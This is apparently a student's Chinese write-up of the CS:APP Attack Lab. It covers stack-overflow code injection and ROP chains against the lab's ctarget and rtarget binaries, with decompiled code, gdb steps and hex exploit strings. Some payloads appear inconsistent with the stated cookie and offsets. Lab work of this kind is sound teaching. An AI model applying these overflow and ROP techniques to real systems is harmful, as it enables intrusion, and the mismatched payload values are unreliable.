

# ATTACK-lab

## ctarget

做题方法： 将需要注入的代码写入

```
touch1.txt
```

 然后执行： 

```
./hex2raw < touch1.txt > touch1solve.txt
```

```
./ctarget -q -i touch1solve.txt
```

通过栈溢出达到将函数流劫持到相应的touch 执行 

 典型的栈溢出利用是覆盖程序的返回地址为攻击者所控制的地址 


先检查一下保护，发现是小端序程序


### touch1

ida打开

```
void __cdecl test()
{
  unsigned int v0; // eax

  v0 = getbuf();
  __printf_chk(1LL, "No exploit.  Getbuf returned 0x%x\n", v0);
}
```

进入getbuf

```
unsigned int __cdecl getbuf()
{
  char buf[32]; // [rsp+0h] [rbp-28h] BYREF

  Gets(buf);
  return 1;
}
```

我们知道了buf是32位的数组，进入Gets函数

```
char *__fastcall Gets(char *dest)
{
  char *i; // rbx
  int v2; // eax

  gets_cnt = 0;
  for ( i = dest; ; ++i )
  {
    v2 = _IO_getc(infile);
    if ( v2 == -1 || v2 == 10 )
      break;
    *i = v2;
    save_char(v2);
  }
  *i = 0;
  save_term();
  return dest;
}
```


这道题是ret2text


栈的大小为0x28


所以存在缓冲区溢出，在栈里使用IO_gets可以读入不限制大小的数据 

要跳转的地方是touch1


写出脚本：

```
'a'*0x28+p64(0x4017C0)
```

运行后得到


### touch2

这个题让做的是getbuf函数调用结束后，跳转到touch2执行，同时将Cookie值作为一个无符号整型（占4字节）参数传入touch2。

ida打开

```
void __fastcall __noreturn touch2(unsigned int val)
{
  vlevel = 2;
  if ( val == cookie )
  {
    __printf_chk(1LL, "Touch2!: You called touch2(0x%.8x)\n", val);
    validate(2);
  }
  else
  {
    __printf_chk(1LL, "Misfire: You called touch2(0x%.8x)\n", val);
    fail(2);
  }
  exit(0);
}
```


进入 validate

```
void __fastcall validate(int level)
{
  if ( is_checker )
  {
    if ( vlevel != level )
    {
      puts("\nMismatched validation levels");
      check_fail();
    }
    if ( check_level != level )
    {
      __printf_chk(1LL, "\nCheck level %d != attack level %d\n");
      check_fail();
    }
    __printf_chk(1LL, "PASS\t%ctarget\t%d\t%s\n");
  }
  else if ( vlevel == level )
  {
    __printf_chk(1LL, "Valid solution for level %d with target %ctarget\n");
    notify_server(1, level);
  }
  else
  {
    puts("\nMismatched validation levels");
    notify_server(0, level);
  }
}
```


进入 notify_server

```
void __fastcall notify_server(int pass, int level)
{
  unsigned int v2; // eax
  const char *v3; // r9
  char autoresult[8192]; // [rsp+20h] [rbp-4018h] BYREF
  char status_msg[8192]; // [rsp+2020h] [rbp-2018h] BYREF
  unsigned __int64 v6; // [rsp+4028h] [rbp-10h]

  v6 = __readfsqword(0x28u);
  if ( !is_checker )
  {
    if ( gets_cnt + 100 > 0x2000 )
    {
      __printf_chk(1LL, "Internal Error: Input string is too large.");
      exit(1);
    }
    v2 = -1;
    if ( notify )
      v2 = authkey;
    v3 = "PASS";
    if ( !pass )
      v3 = "FAIL";
    __sprintf_chk(
      autoresult,
      1LL,
      0x2000LL,
      "%d:%s:0x%.8x:%ctarget:%d:%s",
      (unsigned int)target_id,
      v3,
      v2,
      target_prefix[0],
      level,
      gets_buf);
    if ( notify )
    {
      if ( pass )
      {
        if ( driver_post(user_id, course, lab, autoresult, 0, status_msg) < 0 )
        {
          __printf_chk(1LL, "FAILED: %s\n");
          exit(1);
        }
        puts("PASS: Sent exploit string to server to be validated.");
        puts("NICE JOB!");
      }
      else
      {
        puts("FAILED");
      }
    }
    else
    {
      __printf_chk(1LL, "%s: Would have posted the following:\n");
      __printf_chk(1LL, "\tuser id\t%s\n");
      __printf_chk(1LL, "\tcourse\t%s\n");
      __printf_chk(1LL, "\tlab\t%s\n");
      __printf_chk(1LL, "\tresult\t%s\n");
    }
  }
}
```

cookie的值为

```
0x59b997fa
```


使用缓存区作为代码执行区域，缓存区溢出后，将返回地址写为缓存区首地址，然后执行缓存区所存的指令 ，我们应该覆盖原返回地址，写入攻击指令。 

可以通过rdi传参，然后在栈顶写入跳转到touch2的代码

写出脚本：

```
movq $0x59b997fa,%rdi
pushq $0x4017EC
retq
```

touch2的首地址为0x4017EC，栈的地址也是这个


然后把攻击指令编译成机器码, 再objdump -d生成的文件就可以间接地看到最终的机器码。 

```
gcc -c 2.s
objdump -d 2.o > 2.d  
```


得到16进制机器码

```
48 c7 c7 fa 97 b9 59
68 c0 17 40 00 
c3
```


这次我们需要在输入的东西中加入写入的代码，不能直接让buffer上的地址换成touch2的地址，而应该转入到我们所写的代码的地址，如果要把代码写在开头，我们需要知道buffer起始地址

在getbuf下断点，然后查看rsp寄存器的值就可以，rsp寄存器是指向栈区的寄存器


```
b *0x4017A8
r -q
```


所以得到栈顶是

```
RSP 0x5561dc78
```

所以最后的答案是

```
48 c7 c7 fa 97 b9 59
68 ec 17 40 00 c3 00 
00 00 00 00 00 00 00 
00 00 00 00 00 00 00 
00 00 00 00 00 00 00 
00 00 00 00 00 78 DC 
61 55 00 00 00 00
```





### touch3

这道题加了一个十六进制字符串比较的判断函数 

ida打开

```
void __fastcall __noreturn touch3(char *sval)
{
  vlevel = 3;
  if ( hexmatch(cookie, sval) )
  {
    __printf_chk(1LL, "Touch3!: You called touch3(\"%s\")\n");
    validate(3);
  }
  else
  {
    __printf_chk(1LL, "Misfire: You called touch3(\"%s\")\n");
    fail(3);
  }
  exit(0);
}
```


进入validate

```
void __fastcall validate(int level)
{
  if ( is_checker )
  {
    if ( vlevel != level )
    {
      puts("\nMismatched validation levels");
      check_fail();
    }
    if ( check_level != level )
    {
      __printf_chk(1LL, "\nCheck level %d != attack level %d\n");
      check_fail();
    }
    __printf_chk(1LL, "PASS\t%ctarget\t%d\t%s\n");
  }
  else if ( vlevel == level )
  {
    __printf_chk(1LL, "Valid solution for level %d with target %ctarget\n");
    notify_server(1, level);
  }
  else
  {
    puts("\nMismatched validation levels");
    notify_server(0, level);
  }
}
```


进入 notify_server

```
void __fastcall notify_server(int pass, int level)
{
  unsigned int v2; // eax
  const char *v3; // r9
  char autoresult[8192]; // [rsp+20h] [rbp-4018h] BYREF
  char status_msg[8192]; // [rsp+2020h] [rbp-2018h] BYREF
  unsigned __int64 v6; // [rsp+4028h] [rbp-10h]

  v6 = __readfsqword(0x28u);
  if ( !is_checker )
  {
    if ( gets_cnt + 100 > 0x2000 )
    {
      __printf_chk(1LL, "Internal Error: Input string is too large.");
      exit(1);
    }
    v2 = -1;
    if ( notify )
      v2 = authkey;
    v3 = "PASS";
    if ( !pass )
      v3 = "FAIL";
    __sprintf_chk(
      autoresult,
      1LL,
      0x2000LL,
      "%d:%s:0x%.8x:%ctarget:%d:%s",
      (unsigned int)target_id,
      v3,
      v2,
      target_prefix[0],
      level,
      gets_buf);
    if ( notify )
    {
      if ( pass )
      {
        if ( driver_post(user_id, course, lab, autoresult, 0, status_msg) < 0 )
        {
          __printf_chk(1LL, "FAILED: %s\n");
          exit(1);
        }
        puts("PASS: Sent exploit string to server to be validated.");
        puts("NICE JOB!");
      }
      else
      {
        puts("FAILED");
      }
    }
    else
    {
      __printf_chk(1LL, "%s: Would have posted the following:\n");
      __printf_chk(1LL, "\tuser id\t%s\n");
      __printf_chk(1LL, "\tcourse\t%s\n");
      __printf_chk(1LL, "\tlab\t%s\n");
      __printf_chk(1LL, "\tresult\t%s\n");
    }
  }
}
```


进入 hexmatch

```
int __fastcall hexmatch(unsigned int val, char *sval)
{
  const char *v2; // rbx
  char cbuf[110]; // [rsp+0h] [rbp-98h] BYREF
  unsigned __int64 v5; // [rsp+78h] [rbp-20h]

  v5 = __readfsqword(0x28u);
  v2 = &cbuf[random() % 100];
  __sprintf_chk(v2, 1LL, -1LL, "%.8x", val);
  return strncmp(sval, v2, 9uLL) == 0;
}
```


和第二题不同的是，它传入的是字符串指针，要指向cookie字符串，


把rookie转成asc码，得到

```
35 39 62 39 39 37 66 61
```


因为存在strncmp函数，回在函数运行的时候向栈中写入数据，如果继续将数字字符串放到0x28个字符中，数据就会变化，所以需要在栈顶传入数据，需要知道rsp


gdb调试

```
b *0x4018FA
start
r -q
```

发现这么调怎么也看不到rsp，后来问了一下师傅，师傅提醒我，有test，直接在test下断点就行，所以得在test后面下断点

```
b *0x401968 
start
r -q
```

得到


写出脚本：

```
48 c7 c7 a8 dc 61 55
68 fa 18 40 00 c3 00 
00 00 00 00 00 00 00 
00 00 00 00 00 00 00 
00 00 00 00 00 00 00 
00 00 00 00 00 78 DC 
61 55 00 00 00 00 35 
39 62 39 39 37 66 61
```


## rtarget

第二部分是 **Return-Oriented Programming Attacks** ，也就是rop攻击

```
（1）栈随机化

栈随机化的思想使得栈的位置在程序每次运行时都有变化。因此，即使许多机器都运行同样的代码，它们的栈地址都是不同的。上述3个阶段中，栈的地址是固定的，所以我们可以获取到栈的地址，并跳转到栈的指定位置。

（2）栈破坏检测

最近的GCC版本在产生的代码加入了一种栈保护者机制，来检测缓冲区越界。其思想是在栈帧中任何局部缓冲区和栈状态之间存储一个特殊的金丝雀值。在恢复寄存器状态和从函数返回之前，程序检查这个金丝雀值是否被该函数的某个操作或者该函数调用的某个操作改变了。如果是的，那么程序异常中止。

（3）限制可执行代码区域

最后一招是消除攻击者向系统中插入可执行代码的能力。一种方法是限制哪些内存区域能够存放可执行代码。

在ROP攻击中，因为栈上限制了不可插入可执行代码，所以不能像上述第二、第三阶段中插入代码。所以我们需要在已经存在的程序中找到特定的指令序列，并且这些指令是以ret结尾，这一段指令序列，我们称之为gadget。
```


 每一段gadget包含一系列指令字节，而且以`ret`结尾，跳转到下一个`gadget`，就这样连续的执行一系列的指令代码，对程序造成攻击。 ROP的思想是执行现有代码来对程序进行攻击


movq指令编码


popq指令编码


movl指令编码


2字节指令编码，2字节指令可以作为有功能的`nop`，不改变任何寄存器或内存的值。 


先checksec一下


### touch1

ida打开

test函数

```
void __cdecl test()
{
  unsigned int v0; // eax

  v0 = getbuf();
  __printf_chk(1LL, "No exploit.  Getbuf returned 0x%x\n", v0);
}
```


touch1函数

```
void __cdecl __noreturn touch1()
{
  vlevel = 1;
  puts("Touch1!: You called touch1()");
  validate(1);
  exit(0);
}
```

进入 validate

```
void __fastcall validate(int level)
{
  if ( is_checker )
  {
    if ( vlevel != level )
    {
      puts("\nMismatched validation levels");
      check_fail();
    }
    if ( check_level != level )
    {
      __printf_chk(1LL, "\nCheck level %d != attack level %d\n", (unsigned int)check_level, (unsigned int)level);
      check_fail();
    }
    __printf_chk(1LL, "PASS\t%ctarget\t%d\t%s\n", (unsigned int)target_prefix[0], (unsigned int)level, gets_buf);
  }
  else if ( vlevel == level )
  {
    __printf_chk(
      1LL,
      "Valid solution for level %d with target %ctarget\n",
      (unsigned int)level,
      (unsigned int)target_prefix[0]);
    notify_server(1, level);
  }
  else
  {
    puts("\nMismatched validation levels");
    notify_server(0, level);
  }
}
```


getbuf函数

```
unsigned int __cdecl getbuf()
{
  char buf[32]; // [rsp+0h] [rbp-28h] BYREF

  Gets(buf);
  return 1;
}
```


和上一题的touch完全一样，地址都一样


写入0x28个辣鸡数据，然后加上地址就行

```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 C0 17 40 00 00
```


## touch2

第二题的stack的地址回随机化， 不能够ret到stack中来执行指令 ，所以我们不能使用代码注入的方式来进行攻击了 ， 我们把栈中放上很多地址，而每次ret都会到一个Gadget（小的代码片段，并且会ret），这样就可以形成一个程序链。通过将程序自身(`./rtarget`)的指令来完成我们的目的。 


所以我们需要构造的代码为

```
popq %rax
movq %rax, %rdi
```


从上面的表中得到popq %rax的指令字节为58

需要用gadget来找符合要求的部分

```
ROPgadget --binary rop  --only 'pop|ret'
ROPgadget --binary ret2syscall  --ropchain
ROPgadget --binary ret2syscall > gadgets 
```

把rop换成文件的名字，也就是

```
ROPgadget --binary rtarget  --only 'pop|ret'
```

得到


在这里没找到pop rax，这里的都是带ret的，发现函数表里有很多get，找到合适的部分


得到

```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```


这个其实在这里也能找到，就是找起来有点费眼睛


看到师傅是这么写的脚本

```
‘a'*0x28 + p64(0x4019b9) + p64(cookie) + p64(0x4019EF) + p64(0x4017c0)
```


## touch3

ida打开

```
void __fastcall __noreturn touch3(char *sval)
{
  vlevel = 3;
  if ( hexmatch(cookie, sval) )
  {
    __printf_chk(1LL, "Touch3!: You called touch3(\"%s\")\n", sval);
    validate(3);
  }
  else
  {
    __printf_chk(1LL, "Misfire: You called touch3(\"%s\")\n", sval);
    fail(3);
  }
  exit(0);
}
```

还是和上面一样，


将寄存器rdi的值设置为cookie字符串的指针即存储cookie字符串的地址。

在上面找到的满足条件的gadget中可以凑出能够实现攻击的指令。

先把%rsp存储的栈顶指针值复制给%rdi， 再将%eax的值设置为cookie字符串地址在栈中的偏移量并复

制给%esi，最后将二者相加即为cookie字符串的存储地址。


```
mov   %rsp,%rax
ret
mov   %rax,%rdi
ret
popq  %rax         
ret                 
movl  %eax,%edx
ret
movl  %edx,%ecx
ret
movl  %ecx,%esi
ret
lea   (%rdi,%rsi,1),%rax
ret
mov   %rax,%rdi
ret
```


在网上找了一个图片


```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
b7 1a 40 00 00 00 00 00 
41 1a 40 00 00 00 00 00  
2d 1a 40 00 00 00 00 00  
48 00 00 00 00 00 00 00  
53 1a 40 00 00 00 00 00  
a9 1a 40 00 00 00 00 00  
ca 1a 40 00 00 00 00 00  
4c 1a 40 00 00 00 00 00  
41 1a 40 00 00 00 00 00  
75 19 40 00 00 00 00 00 
37 33 66 62 31 36 30 30 
```


得到


第三个理解的不够透彻